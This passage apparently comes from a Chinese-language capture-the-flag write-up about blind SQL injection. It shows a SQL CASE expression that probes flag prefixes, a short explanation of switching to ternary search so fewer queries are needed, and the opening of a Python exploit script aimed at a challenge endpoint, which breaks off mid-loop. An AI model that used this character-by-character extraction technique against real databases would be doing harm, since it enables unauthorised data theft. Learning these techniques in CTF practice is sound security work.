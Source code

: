 ``` sql
    (content like 'cymetrics{i%') or
    (content like 'cymetrics{j%') or
    (content like 'cymetrics{k%') or
    (content like 'cymetrics{l%') or
    (content like 'cymetrics{m%') or
    (content like 'cymetrics{n%') or
    (content like 'cymetrics{o%') or
    (content like 'cymetrics{p%') or
    (content like 'cymetrics{q%')
  ) then 2
  when (
    (content like 'cymetrics{r%') or
    (content like 'cymetrics{s%') or
    (content like 'cymetrics{t%') or
    (content like 'cymetrics{u%') or
    (content like 'cymetrics{v%') or
    (content like 'cymetrics{w%') or
    (content like 'cymetrics{x%') or
    (content like 'cymetrics{y%') or
    (content like 'cymetrics{z%') or
    (content like 'cymetrics{\_%')
  ) then 5
  else 10
end from flag)
```

每次都分成三等份搜尋，就變成了三分搜尋法，最壞的狀況下需嘗試的次數從 9n 變成了 3n，腳本如下（三分搜的部分算是亂寫的，不保證沒有 bug）：

``` python
# exploit-search-teanary.py
import requests
import time
import json
import urllib.parse

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
result = 'cymetrics{'

is_over = False
start = time.time()
while True:
  print_success("result: " + result)
  if is_over:
    break

  found = False
  L = 0
  R = len(char_set) - 1
  while L<=R:
    s = (R-L) // 3
    ML = L + s
    MR = L + s * 2
    if s == 0:
      MR = L + 1

    group = [
```